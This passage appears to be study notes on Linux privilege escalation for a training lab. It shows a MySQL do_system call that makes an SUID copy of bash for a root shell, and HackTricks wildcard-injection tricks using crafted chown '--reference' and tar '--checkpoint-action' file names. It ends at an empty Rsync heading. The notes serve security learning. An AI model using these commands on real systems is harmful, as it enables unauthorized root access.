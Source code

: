 Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

	select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

	/tmp/rootbash -p

**Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!**

	rm /tmp/rootbash   exit

</div></div>


</div></div>


## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

## Wildcard spare

</div>


https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks
## chown, chmod

You can **indicate which file owner and permissions you want to copy for the rest of the files**

```
touch "--reference=/my/own/path/filename"
```

You can exploit this using [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(combined attack)_ More info in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Tar

**Execute arbitrary commands:**

```
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```

You can exploit this using [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(tar attack)_ More info in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Rsync
